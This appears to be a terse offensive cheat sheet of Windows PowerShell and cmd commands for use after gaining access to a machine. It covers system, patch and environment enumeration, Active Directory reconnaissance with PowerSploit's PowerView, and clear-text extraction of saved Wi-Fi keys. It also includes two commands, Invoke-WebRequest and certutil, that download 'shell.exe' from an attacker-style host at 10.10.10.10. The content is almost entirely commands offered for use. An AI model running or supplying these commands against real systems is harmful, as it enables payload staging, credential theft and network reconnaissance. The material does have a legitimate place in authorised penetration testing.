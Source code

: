 System enumeration

systeminfo

Get-WmiObject Win32_ComputerSystem

echo "$env:COMPUTERNAME.$env:USERDNSDOMAIN"

List Security patches

Get-Hotfix -description "Security update"

wmic qfe get HotfixID,ServicePackInEffect,InstallDate,InstalledBy,InstalledOn

Environment Variables

Get-ChildItem Env: | ft Key,Value

(over cmd.exe)

set

HTTP download (wget like)

Invoke-WebRequest "http://10.10.10.10/shell.exe" -OutFile "shell.exe" 

Cmd compatible

certutil -urlcache -f http://10.10.10.10/shell.exe shell.exe

WLAN enumeration

netsh wlan show profiles

netsh wlan show profile name="PROFILE-NAME" key=clear

Active Directory enumeration
Require Powerview.ps1

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

Domain enumeration

Get-NetDomain

List Forest Domains

Get-NetForestDomain

Domain SID

Get-DomainSID 

Domain Policy

Get-DomainPolicy

Domain Organizational Units

Get-NetOU

List trusted Domains

Get-NetDomainTrust
